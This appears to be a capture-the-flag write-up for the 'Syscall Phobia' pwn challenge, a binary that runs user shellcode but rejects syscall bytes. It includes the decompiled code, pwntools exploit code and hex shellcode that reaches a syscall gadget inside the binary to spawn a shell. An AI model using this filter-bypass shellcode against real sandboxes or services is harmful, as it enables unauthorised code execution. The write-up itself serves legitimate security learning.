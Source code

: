 # Syscall Phobia

> 150 | Pwn
> 
> Timmy has created a program to execute any x86_64 bytecode instructions! However, Timmy has an absolute detest for syscalls, and does not want anyone to insert syscalls into their instructions. This will make it a little secure... right?
> 
> This challenge server can be accessed here:
> 
> (Any one of the options below is fine)  
> (Suggested access via 'nc')  
> nc ctf-85ib.balancedcompo.site 9998  
> _(9 more nc endpoints)_ 
> 
> Files (Any of the links are fine):  
> https://nusdsoctf2.s3-ap-southeast-1.amazonaws.com/S3/Syscall_Phobia/syscall-phobia  
> https://nusdsoctf.s3-ap-southeast-1.amazonaws.com/S3/Syscall_Phobia/syscall-phobia  
> [Attachment: syscall-phobia](./challenge/syscall-phobia)

Writeup by [@4yn](https://github.com/4yn)

Try to run the executable:

```
$ ./challenge/syscall-phobia
Enter your hexadecimal bytecode here and we will execute it for you!
We absolutely hate syscalls so please DO NOT enter syscall instructions here :D
Example: 554889e5c9c3

Enter assembly bytecode here! (No syscalls please, tenks): 
[I press enter without keying in any shellcode]

Executing your assembly code!
Segmentation fault (core dumped)
```

Decompile with ghidra:

```c++
undefined8 FUN_00400a2c(void)

{
  size_t sVar1;
  void *pvVar2;
  char local_118 [260];
  int local_14;
  code *local_10;
  
  local_10 = (code *)mmap((void *)0x0,0x1000,7,0x22,-1,0);
  puts("Enter your hexadecimal bytecode here and we will execute it for you!");
  puts("We absolutely hate syscalls so please DO NOT enter syscall instructions here :D");
  puts("Example: 554889e5c9c3\n");
  puts("Enter assembly bytecode here! (No syscalls please, tenks): ");
  fflush(stdout);
  fgets(local_118,200,stdin); // Get up to 
  sVar1 = strcspn(local_118,"\n");
  local_118[sVar1] = '\0';
  local_14 = FUN_004008f6(local_118,local_10,local_10); // Converts hex string input to raw byte array
  pvVar2 = memmem(local_10,(long)local_14,&DAT_00400d5e,2); // DAT_00400d5e is text pointer to 0x0f05
  if (pvVar2 == (void *)0x0) { // Check if shellcode contains syscall
    pvVar2 = memmem(local_10,(long)local_14,&DAT_00400d61,2); // DAT_00400d61 is text pointer to 0xcd80
    if (pvVar2 == (void *)0x0) { // Check if shellcode contains interrupt
      puts("Executing your assembly code!");
      fflush(stdout);
      DAT_006020a0 = local_10;
      (*local_10)(); // Run shellcode
      return 0;
    }
  }
  puts("Hey! I told you no syscalls! :(");
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```

We want to make a shellcode that pops a shell, but any instance of `0f05` / syscall or `cd80` / interrupt instructions will prevent execution.

A quick checksec shows that the elf does not have PIE enabled.

```python
from pwn import *
e = ELF('./challenge/syscall-phobia')
e.checksec()
"""
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
"""
```

To solve this, instead of having a syscall instruction in the shellcode, we ROP to a syscall instruction somewhere else inside the binary.

```python
r = ROP(e)
assembly = shellcraft.sh()
assembly = assembly.replace("syscall", f"push {hex(r.syscall.address)}\n    ret")
print(assembly)
"""
    /* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push b'/bin///sh\x00' */
    push 0x68
    mov rax, 0x732f2f2f6e69622f
    push rax
    mov rdi, rsp
    /* push argument array ['sh\x00'] */
    /* push b'sh\x00' */
    push 0x1010101 ^ 0x6873
    xor dword ptr [rsp], 0x1010101
    xor esi, esi /* 0 */
    push rsi /* null terminate */
    push 8
    pop rsi
    add rsi, rsp
    push rsi /* 'sh\x00' */
    mov rsi, rsp
    xor edx, edx /* 0 */
    /* call execve() */
    push SYS_execve /* 0x3b */
    pop rax
    push 0x400d5e
    ret
"""

shellcode = asm(assembly)
print(shellcode.hex())
"""
6a6848b82f62696e2f2f2f73504889e768726901018134240101010131f6566a085e4801e6564889e631d26a3b58685e0d4000c3
"""
```

Once in the server, just cat the flag. Note that the server's `$PATH` was polluted and we need to use the full path to `cat`.

```python
# For local test
r = process(binary_path)
# For live challenge
# r = remote(c'tf-85ib.balancedcompo.site', 9998) 

r.read()
r.sendline(shellcode.hex())
r.interactive()
```

```bash
$ /bin/cat flag.txt
DSO-NUS{a5a5ab1dc69bb9ffb55e75bdc290313d7d7137e653c98e66cc23dc042b2046bc}
```